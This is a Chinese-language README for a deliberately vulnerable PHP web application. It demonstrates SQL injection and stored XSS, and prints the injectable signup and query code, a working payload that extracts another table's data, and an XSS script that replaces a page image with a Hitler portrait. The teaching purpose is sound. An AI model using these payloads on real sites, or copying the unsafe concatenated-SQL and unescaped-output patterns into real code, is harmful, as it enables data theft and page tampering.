


# README

这是一个为了演示各个类型的 WEB 攻击的一个程序。

它通过 PHP 做后端，`boostrap` 做前端框架，原本是用来提交 shesl 的数据库系统的大作业。

## 漏洞简述

### SQL 注入

这是最常见，也是最具危害性的 WEB 漏洞。

在该项目中 `signup.php` 这个文件中，使用以下代码进行插入数据库操作，可以造成 `sql` 注入：

```php
$sql = "INSERT INTO users(Alias, email, password) VALUES (".
    $_POST["signup-username"].", ".$_POST["signup-email"].", ".md5($_POST["signup-password"]).");";

if( $conn->query($sql) == TRUE ) $info = "sign up successfully";
else $info = $conn->error;
```

这里可以通过联合查询并配合 `concat` 函数，脱出数据库中非 `users` 表单所有信息（因为 `insert into` 语句在 mysql 中无法联合查询本表）。一个可能的 `payload` 如下：

```mysql
# $_POST["signup-username"]=
htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #

# $_POST["signup-email"]=
shesl-meow@qq.com

# $_POST["password"]=
68e109f0f40ca72a15e05cc22786f8e6
```

实际执行的 `mysql` 语句如下：

```mysql
INSERT INTO users(Alias, email, password) VALUES('htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #', 'shesl-meow@qq.com', '22744961b84dc9c20cdd1c0e0f5e1a82');
```

其中：

- 利用了联合查询语句，可以将**任意查询的结果**赋值给用户的 `email` 信息。

- 此处使用的查询语句是 `games` 这个表格的 `PName`，`GName`，`HumanID` 的字符串拼接。使用 `coalesce` 函数的原因是：当被拼接字符串的一项为 `NULL` 时，结果会退化为 `NULL`。

- 注意该数据库是以 `md5` 存储密码，因此在填入密码时，需要填入密码的 `md5` 值：

  ```bash
  $ echo -n "HelloWorld" | md5sum
  68e109f0f40ca72a15e05cc22786f8e6 *-
  ```


再次登录后查看本账户的邮箱信息，可以查询到脱库的结果：



### XSS 漏洞

在登录之后会显示一个查询页面，将查询的信息显示在底下的 Query Result 搜索栏中：

- 实现这一过程的 `php` 代码大致如下（文件 `index.php`）：

  ```php+HTML
  <p id='query-result'>
  	<?= $_COOKIE["queryResult"] ?>
  </p>
  ```

- 提交 `form` 表单时指向的文件是 `queryblock.js`：

  ```javascript
  Qu[2].addEventListener('click',function(event){
      event.preventDefault();
      Qg[1].value = "";
      setCookie("queryResult", QueryUser( Qu[1].value ), 1);
      window.location.replace("../index.php");
  });
  ```

  它监听点击事件，并且将查询的结果直接设置到 `cookie` 变量中，并且重新加载 `index.php` 文件（这一点保证了数据库中的如果出现 `javascript` 代码，可以动态显示在网页上）

  他通过以下的 `ajax` 代码与 `php` 进行通信：

  ```javascript
  function QueryUser(inputname) {
      var result = "Your Query result will be print here.";
      $.ajax({
          type: "POST",
          url: '../php/queryUser.php',
          dataType: 'text',
          async: false,
          data:{"query-user": inputname},
  
          success: function(data){
              if(data != "") result = data;
          }
      });
      return result;
  }
  ```

- 进行数据库查询的 `php` 代码大致如下（文件 `queryUser.php`）：

  ```php
  if( $res1 = $conn->query("SELECT HumanID,email,Alias,GameID,gender FROM users WHERE Alias='".$inputkey."';") ){
      while( $row = $res1->fetch_assoc() ){
          foreach ($row as $key => $value) {
              if( !isset($value) ) $value = "null";
              if( $key == "GameID" ) $key = "Favorate Game";
              $Info = $Info.$key.": ".$value.";<br>";
          }
          $Info = $Info . "<br>";
      }
      $queryResult = $Info;
  }
  ```


因为该操作直接将数据库中的信息给显示到了屏幕上，所以如果我们的邮箱信息是 `javascript` 代码，那么其他用户在查询我们的账号时，便会执行我们的 `javascript` 代码。我们尝试以下的 `javascript` 代码，他可以更改图片的信息：

```javascript
ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";
```

 这是一个指向维基百科希特勒的图片，我们可以使用上面 `sql` 注入的方法，注册一个 email 为 `javascript` 代码的用户：

```mysql
# _POST["signup-username"]=
hacker', '<script>ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";</script>', '68e109f0f40ca72a15e05cc22786f8e6'); #
```

再次登录发现左侧页面 `img` 被篡改为希特勒的照片：



